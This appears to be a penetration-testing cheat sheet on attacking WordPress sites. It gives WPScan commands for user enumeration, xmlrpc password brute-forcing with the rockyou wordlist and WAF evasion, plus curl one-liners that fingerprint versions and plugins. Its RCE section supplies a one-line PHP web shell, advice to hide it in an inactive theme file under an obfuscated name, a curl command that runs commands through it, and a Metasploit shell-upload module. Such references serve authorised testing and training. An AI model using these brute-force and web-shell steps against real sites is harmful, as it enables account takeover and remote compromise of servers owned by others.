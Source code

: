 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WordPress

## General Information

<details>

<summary>Directories</summary>

`/wp-admin` -> `/wp-login.php`

`/wp-content/plugins/`

`/wp-content/themes/`

</details>

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Automated Enumeration (WPScan)

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># Enumerating users and brute-forcing
</strong><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong><strong># Targeted brute-forcing using xmlrpc
</strong>sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou
</code></pre>
{% endtab %}

{% tab title="WAF Evasion" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>
{% endtab %}
{% endtabs %}

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`

## Manual Enumeration

{% tabs %}
{% tab title="Version" %}
```bash
curl -s example.com | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s example.com | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s example.com | grep plugins
```
{% endtab %}

{% tab title="Plugin Version*" %}
{% code overflow="wrap" %}
```bash
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

\*_Plugin version requires Directory listing to be enabled._

## RCE

### Browser

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

### Metasploit

```bash
# launch metasploit
msfconsole -q
# use module (make sure to `set VHOST`)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

## Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/wpscanteam/wpscan" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation" %}
{% endtab %}
{% endtabs %}
